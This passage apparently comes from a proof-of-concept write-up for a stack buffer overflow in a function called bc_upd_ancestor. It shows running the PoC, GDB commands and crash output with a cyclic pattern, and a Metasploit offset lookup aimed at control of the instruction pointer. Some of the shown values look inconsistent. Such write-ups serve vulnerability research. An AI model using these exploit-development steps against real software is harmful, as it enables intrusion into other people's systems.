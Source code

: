 ```bash
./test_upd_ancestor_poc
```

Expected output:
```
=== [PoC] bc_upd_ancestor Exploit Test ===
[+] bc_upd_ancestor() returned: 0x...
Segmentation fault (core dumped)
```

This confirms the memory corruption has occurred due to the unbounded copy into the stack buffer.

---

## ✅ Step 5: Analyzing with GDB (Stack Corruption + RIP Control)

To inspect the exact impact and confirm stack overwrite:

```bash
gdb ./test_upd_ancestor_poc
```

Inside GDB:

```gdb
run
x/100x $rsp
info registers rip
```

---

## 🧠 GDB Crash Output (Key Parts)
```bash
(gdb) run
=== [PoC] bc_upd_ancestor Exploit Test ===
Program received signal SIGSEGV, Segmentation fault.
__memcpy_sse2_unaligned_erms ()

(gdb) info registers rip
rip            0x7ffff7d2af53 <__memcpy_sse2_unaligned_erms+339>

(gdb) x/100x $rsp
0x7ffffff83bc0: 0x6141316141306141 ('Aa0Aa1Aa')
0x7ffffff83bc8: 0x33614132 ('2Aa3Aa4A')
...
```

### 🔎 Offset Check (using stack value from x/100x)
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6141316141306141
[*] Exact match at offset 0
```
